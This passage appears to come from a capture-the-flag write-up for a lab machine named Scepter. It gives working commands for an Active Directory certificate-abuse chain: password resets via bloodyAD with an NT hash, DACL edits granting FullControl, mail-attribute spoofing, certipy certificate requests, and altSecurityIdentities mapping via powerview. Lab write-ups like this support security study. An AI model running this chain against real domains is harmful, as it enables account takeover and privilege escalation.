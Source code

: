 But yeah we already done seems like. lets login with powerview.

!!!!! ATTENTTION PLEASEEEE CLEANUP SCRIPT IS FCKING FAST SO DONT FORGET TO RUN WHOLE COMMANDS AGAIN!!!!

```bash
bloodyAD --host DC01.scepter.htb -d scepter.htb -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce set password a.carter NewPassword123

dacledit.py -action write -rights FullControl -inheritance \
-principal 'a.carter' \
-target-dn 'OU=Staff Access Certificate,DC=scepter,DC=htb' \
'scepter.htb/a.carter:NewPassword123'

bloodyAD -d scepter.htb -u a.carter -p NewPassword123 --host DC01.scepter.htb set object d.baker mail -v h.brown@scepter.htb

faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad req -username "d.baker@scepter.htb" -hashes 18b5fb0d99e7a475316213c15b6f22ce -target "DC01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'

faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -username h.brown
```

!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

now we can use powerview again

```bash
➜  scepter2 faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" powerview "scepter.htb/h.brown"@"DC01.scepter.htb" --dc-ip 10.10.11.65 -k --no-pass      
Logging directory is set to /home/elliot/.powerview/logs/scepter-h.brown-dc01.scepter.htb
╭─LDAPS─[dc01.scepter.htb]─[SCEPTER\h.brown]-[NS:<auto>]
╰─PV ❯ 
```

and the command is

```bash
╭─LDAPS─[dc01.scepter.htb]─[SCEPTER\h.brown]-[NS:<auto>]
╰─PV ❯ Set-ADObject -Identity 'p.adams' -Set 'altSecurityIdentities=X509:<RFC822>p.adams@scepter.htb'
[2025-07-12 05:07:36] [Set-DomainObject] Success! modified attribute altSecurityIdentities for CN=p.adams,OU=Helpdesk Enrollment Certificate,DC=scepter,DC=htb
╭─LDAPS─[dc01.scepter.htb]─[SCEPTER\h.brown]-[NS:<auto>]
╰─PV ❯ Get-ADObject -Properties altSecurityIdentities
altSecurityIdentities     : X509:<RFC822>p.adams@scepter.htb

altSecurityIdentities     : X509:<RFC822>h.brown@scepter.htb
```

![alt text](../assets/images/scepter14.png)
